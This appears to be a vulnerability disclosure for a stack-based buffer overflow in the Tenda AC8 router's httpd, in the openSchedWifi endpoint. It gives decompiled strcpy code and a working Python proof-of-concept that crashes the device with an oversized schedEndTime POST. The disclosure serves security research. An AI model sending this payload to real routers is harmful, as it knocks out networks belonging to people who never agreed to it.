

# TARGET

- **Device:** Tenda AC8
- **Firmware Version:** V16.03.33.05
- **Vendor Website:** https://www.tendacn.com/
- **Firmware Reference:** AC8v4.0 Firmware - Tenda Global (English)
- 

------

# BUG TYPE

This issue is classified as a **Stack-Based Buffer Overflow Vulnerability**, caused by improper input validation in the router’s HTTP service interface.

# Abstract

A buffer overflow vulnerability exists in the **Tenda AC8 router** running firmware version **V16.03.33.05**.
 The flaw originates from the `openSchedWifi` interface in the embedded `httpd` service, which fails to properly validate user-supplied input in the `schedStartTime` and`schedEndTime` parameter.

An attacker can exploit this vulnerability by sending a specially crafted HTTP request with an overly long `schedStartTime` and`schedEndTime` value, potentially leading to  a denial-of-service condition.

------

# Details

## Vulnerability Description

The Tenda AC8 router contains a buffer overflow vulnerability in firmware version **V16.03.33.05**.
 The issue lies in the `openSchedWifi` endpoint, where the `httpd` service does not effectively filter or validate the length of the  `schedStartTime` and`schedEndTime`  parameter.

Because input data is not correctly checked, a remote attacker can trigger memory corruption by supplying an excessively long string. This may result in arbitrary code execution or cause the device to crash.

------

## Vulnerability Analysis

Using IDA Pro, the vulnerability can be observed in the `httpd` binary, within the function `setSchedWifi`.




A vulnerability was identified in the function `setSchedWifi`. The function entry point was located at address `0x004723A4`during reverse engineering analysis.

Further inspection revealed that this function performs unsafe string parsing and copying operations, introducing a potential stack-based buffer overflow condition.

**User-Controlled Input Retrieval**

- The `schedStartTime` and`schedEndTime`   parameter is entirely **user-controlled**

- No effective validation is applied to its length or content

- This allows an attacker to supply arbitrarily long input values

**Unsafe Parsing with `strcpy`**

The vulnerable code uses `strcpy` to parse the input:

```
 src = (char *)websGetVar(a1, "schedStartTime", &unk_4ECE24);
 v7 = (char *)websGetVar(a1, "schedEndTime", &unk_4ECE24);
   ......
 strcpy((char *)ptr + 2, src);
 strcpy((char *)ptr + 10, v7);

```

As a result, any input exceeding the buffer capacity will cause `strcpy` to write beyond the intended memory boundaries.

# POC

The following proof-of-concept demonstrates how the vulnerability can be triggered:

```
import socket
import os
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
ip = '10.10.10.1'
port = 80
r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
r.connect((ip, port))
rn = b'\r\n'
p1 = b'a' * 0x3000
#p2 = b'schedStartTime=' + p1
p2 = b'schedEndTime=' + p1
p3 = b"POST /goform/openSchedWifi" + b" HTTP/1.1" + rn
p3 += b"Host: 10.10.10.1" + rn
p3 += b"User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0" + rn
p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
p3 += b"Accept-Language: en-US,en;q=0.5" + rn
p3 += b"Accept-Encoding: gzip, deflate" + rn
p3 += b"Cookie: password=1111" + rn
p3 += b"Connection: close" + rn
p3 += b"Upgrade-Insecure-Requests: 1" + rn
p3 += (b"Content-Length: %d" % len(p2)) +rn
p3 += b'Content-Type: application/x-www-form-urlencoded'+rn
p3 += rn
p3 += p2
r.send(p3)
response = r.recv(4096)
response = response.decode()
li(response)

```

## Expected Result

Running the exploit produces a **Segmentation Fault**, indicating that the program attempted to access an invalid memory address. This confirms the presence of a serious memory safety issue.


